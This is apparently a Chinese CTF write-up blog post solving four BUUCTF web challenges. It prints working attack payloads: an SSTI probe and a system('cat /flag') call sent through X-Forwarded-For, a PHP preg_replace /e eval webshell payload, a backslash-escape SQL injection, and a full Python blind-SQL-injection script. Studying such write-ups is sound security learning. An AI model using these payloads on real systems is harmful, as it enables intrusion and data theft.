 # buu摸鱼日记之十三

## [BJDCTF2020]The mystery of ip

这题有点东西

居然是ssti真没想到

题目里面出现了ip,那自然想到client-ip/XXF

然后XXF可控，那么注入点就是这里

然后是smart(不是flask，这个可以用payload\{\{7*'7\}\}' 出49来判断

利用system('cat /flag') 拿到flag

## [BJDCTF2020]ZJCTF，不过如此

这个前半截和ZJCTF一模一样

后半端需要这个getshell

https://xz.aliyun.com/t/2557

这个洞理解起来好吃力，大概就是修改参数来达到串改php内容的作法

写个马进去/?\S*=${eval($_POST[field])}

```php
preg_replace('/(\S*)/ei', 'strtolower("\\1")', {${eval($_POST[field])});
                                              
```

原来的语句就会被魔改成这个DIO样子

就是会把${eval()}先执行掉，然后进行匹配（是个空值）

> ```php
> var_dump(phpinfo()); // 结果：布尔 true
> var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
> var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
> 
> var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
> var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
> 这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
> ```

大致就是这样

## [CISCN 2019 初赛]Love Math

这个题很有趣，可以看出来是RCE，但是不知道怎么做

主要还是利用base_convert转换，可以转出字符串出来（36进制,abcdefg全齐了）

网上看到了很多很有趣的解法，[给了三个解法](http://cnblogs.com/20175211lyz/p/11588219.html),从文件头插入的姿势我是第一次见，真的学到了  

## [BJDCTF 2nd]简单注入

还是要看hint（我太菜了）

扫出来hint.txt

```php
select * from users where username='$_POST["username"]' and password='$_POST["password"]';
```

要用\转义（没看hint真没想到）

魔改以后的就是

```php
select * from users where username='admin\' and password='or length(database())>0#';
```

就有逻辑不一样，回显不同的效果

那么盲注老操作了

```python
import requests

url="http://63f2cb60-65f0-43f7-8c7b-d1123631ab7c.node3.buuoj.cn"

ch = 0
flag = ""

for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        payload = {"username":"admin\\","password":"or/**/if(ascii(substr(password,%d,1))<%d,1,0)#"%(i,mid)}
        r = requests.post(url=url,data=payload).text
        if "stronger" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(r)
    flag += chr(int(mid-1))
    print(flag)

```

```php
select * from users where username='admin\' and password='or/**/if(ascii(substr(password,%d,1))<%d,1,0)#';
```

憨批的我换了半天的select*什么的，后来发现好像根本没必要